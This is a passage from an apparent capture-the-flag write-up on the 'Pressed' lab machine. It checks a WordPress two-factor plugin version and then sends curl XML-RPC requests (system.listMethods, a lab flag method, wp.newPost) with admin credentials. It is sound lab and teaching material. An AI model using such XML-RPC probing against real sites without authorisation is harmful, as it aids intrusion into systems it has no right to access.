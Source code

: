 Looks like there’s two factor authentication. 

We recall from the wpscan, there is a 2-factor-authentication plugin being implemented as well. Let’s see if there are any vulnerabilities associated with miniorange-2-factor-authentication.

In the readme.html, we see a changelog and get the version of the plugin:

```bash
5.4.51
```

We don’t see anything too useful. 

Let’s look for another vulnerability. In our wpscan output, we also find XMLRPC is enabled. It is a feature that allows us to interact with wordpress remotely, since we have admin credentials, we should be able to use that feature. We can find the documentation here https://codex.wordpress.org/XML-RPC/system.listMethods

Let’s try a simple list method to see if it works:

```bash
curl --data "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://pressed.htb/xmlrpc.php
```

![image.png]({{ site.baseurl }}/assets/pressed/image%2010.png)

It works, and we also get a method get_flag, which tells us we are on the right path of exploitation. We can call the .get_flag method:

```bash
curl --data "<methodCall><methodName>htb.get_flag</methodName><params></params></methodCall>" http://pressed.htb/xmlrpc.php
```

Let’s try the wp.newPost method now:

```bash
curl --data "<methodCall><methodName>wp.newPost</methodName><params></params></methodCall>" http://pressed.htb/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>400</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Insufficient arguments passed to this XML-RPC method.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>

```
